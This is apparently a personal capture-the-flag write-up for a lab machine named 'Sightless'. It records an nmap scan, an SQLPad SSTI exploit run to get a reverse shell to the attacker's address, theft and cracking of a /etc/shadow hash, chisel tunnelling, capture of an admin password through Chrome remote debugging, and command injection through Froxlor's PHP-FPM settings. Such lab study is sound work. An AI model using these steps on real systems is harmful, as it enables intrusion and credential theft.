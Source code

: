 
# nmap 

```shell
Nmap scan report for 10.129.192.47
Host is up (0.17s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.192.47]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/16%Time=66E836BA%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,A2,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20
SF:Server\)\x20\[::ffff:10\.129\.192\.47\]\r\n500\x20Invalid\x20command:\x
SF:20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


# added sightless.htb on /etc/hosts, also found a subdomain on the homepage sqlpad.sightless.htb

# site uses sqlpad v6.10.0 which has a [SSTI vulnerability](https://github.com/FlojBoj/CVE-2022-0944) 

```shell
python3 main.py http://sqlpad.sightless.htb 10.10.14.111 4444
```

# Got a root, but noticed its a docker container but still got credentials from /etc/shadow and /etc/passwd

```shell
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/
```

# Cracked the hash using john the ripper

```
unshadow passwd.txt shadow.txt > unshadow.hash

john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.hash
```

> got the password michael:insaneclownposse

found using linpeas
```shell
john        1661  0.6  2.8 34019516 111848 ?     Sl   13:20   0:27              |   _ /opt/google/chrome/chrome --allow-pre-commit-input --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-logging --headless --log-level=0 --no-first-run --no-sandbox --no-service-autorun --password-store=basic --remote-debugging-port=0 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.org.chromium.Chromium.ALIOQ6 data:,

```
# Found a service named Froxlor, it only runs inside the machine so I used port forwarding to access it on my machine

```shell
ssh -L 8080:localhost:8080 michael@sightless.htb

```

# Chisel port forwarding works

```shell
# target machine
./chisel client --fingerprint 6C9KdBtVtNbX9Bt8/FH70P9E61/UV4qj1GdJ/Ce38aI= 10.10.14.111:8080 R:8081:localhost:8080

# attacker machine
./chisel server --socks5 --reverse
```

# Forwarded all ports running on the intranet for remote debugging

```shell
#server
chisel server --socks5 --reverse --port 8081
2024/09/17 10:13:47 server: Reverse tunnelling enabled
2024/09/17 10:13:47 server: Fingerprint 9cAOGM6y5LOa2mNXbfpxUty5fUq73KhZ84v/6XRUweM=
2024/09/17 10:13:47 server: Listening on http://0.0.0.0:8081
2024/09/17 10:14:14 server: session#5: tun: proxy#R:8080=>localhost:8080: Listening
^[[A2024/09/17 10:16:23 server: session#6: tun: proxy#R:8080=>localhost:8080: Listening
2024/09/17 10:16:23 server: session#6: tun: proxy#R:41267=>localhost:41267: Listening
2024/09/17 10:16:23 server: session#6: tun: proxy#R:40613=>localhost:40613: Listening
2024/09/17 10:16:23 server: session#6: tun: proxy#R:59369=>localhost:59369: Listening

#client
./chisel client --fingerprint 9cAOGM6y5LOa2mNXbfpxUty5fUq73KhZ84v/6XRUweM= 10.10.14.111:8081 R:8080:localhost:8080 R:41267:localhost:41267 R:40613:localhost:40613 R:59369:localhost:59369


```

# Then configured chromium, added all forwarded ports to capture remote debugging connection

> chrome://inspect -> configure  all forwarded ports-> wait for connection

password captured in network logs from index.php

admin:ForlorfroxAdmin

# Configured *PHP-FPM versions* , edited restart command input field to copy root.txt from /root to /tmp

